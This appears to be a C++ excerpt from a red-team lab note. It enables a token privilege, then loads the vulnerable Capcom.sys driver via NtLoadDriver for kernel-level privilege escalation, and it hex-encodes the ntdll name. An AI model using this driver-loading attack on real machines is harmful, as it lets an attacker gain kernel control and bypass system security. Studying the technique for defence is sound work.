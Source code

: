 ```cpp
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	//system("cmd");
	// below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
	std::cout << "[+] Set Registry Keys" << std::endl;
	NTSTATUS st1;
	UNICODE_STRING pPath;
	UNICODE_STRING pPathReg;
	PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
	PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\SomeService";
	const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
	HMODULE hObsolete = GetModuleHandleA(NTDLL);
	*(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
	*(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
	*(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

	RtlInitUnicodeString(&pPath, pPathSource);
	RtlInitUnicodeString(&pPathReg, pPathSourceReg);
	st1 = NtLoadDriver(&pPathReg);
	std::cout << "[+] value of st1: " << st1 << "\n";
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver Loaded as Kernel..\n";
		std::cout << "[+] Press [ENTER] to unload driver\n";
	}

	getchar();
	st1 = NtUnloadDriver(&pPathReg);
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver unloaded from Kernel..\n";
		std::cout << "[+] Press [ENTER] to exit\n";
		getchar();
	}

    return 0;
}
```
{% endcode %}
